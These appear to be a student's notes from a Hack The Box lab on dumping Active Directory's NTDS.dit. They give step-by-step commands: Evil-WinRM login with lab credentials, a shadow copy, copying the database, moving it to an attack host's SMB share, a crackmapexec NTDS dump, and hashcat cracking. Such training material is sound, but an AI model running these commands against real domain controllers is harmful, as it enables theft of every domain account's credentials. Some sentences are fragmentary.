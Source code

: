 `NT Directory Services` (`NTDS`) is the directory service used with AD to find & organize network resources. Recall that `NTDS.dit` file is stored at `%systemroot%/ntds` on the domain controllers in a forest
The `.dit` stands for [directory information tree]. This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information. If this file can be captured, we could potentially compromise every account on the domain similar to the technique we covered in this module's `Attacking SAM` section.

#### Connecting to a DC with Evil-WinRM

```shell-session
AhmaDb0x@htb[/htb]$ evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```
#### Checking Local Group Membership
what privileges `bwilliamson` has
```shell-session
*Evil-WinRM* PS C:\> net localgroup

*Administrators

```

`Administrators group`) or Domain Admin (`Domain Admins group`) (or equivalent) rights. We also will want to check what domain privileges we have.

#### Checking User Account Privileges including Domain
```shell-session
*Evil-WinRM* PS C:\> net user bwilliamson
Domian admins 
```
#### Creating Shadow Copy of C:
 Volume Shadow Copy `VSS`:a feature in Windows that allows the system to create **snapshots** (or "shadow copies") of files and volumes even while they are in use. This is useful for **backup, recovery, and forensic analysis**.
 of the C: drive
 when initially installing AD. It is very likely that NTDS will be `stored on C`: as that is the default location selected at install, but it is possible to change the location. We use VSS for this because it is designed to make copies of volumes that may be read & written to actively without needing to bring a particular application or system down.
 ```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```
#### Copying NTDS.dit from the VSS
```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
 #### Transferring NTDS.dit to Attack Host
 
```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```
#### A Faster Method: Using cme to Capture NTDS.dit
```shell-session
AhmaDb0x@htb[/htb]$ crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```
## Cracking Hashes & Gaining Credentials
```shell-session
AhmaDb0x@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

64f12cddaa88057e06a81b54e73b949b:Password1
```
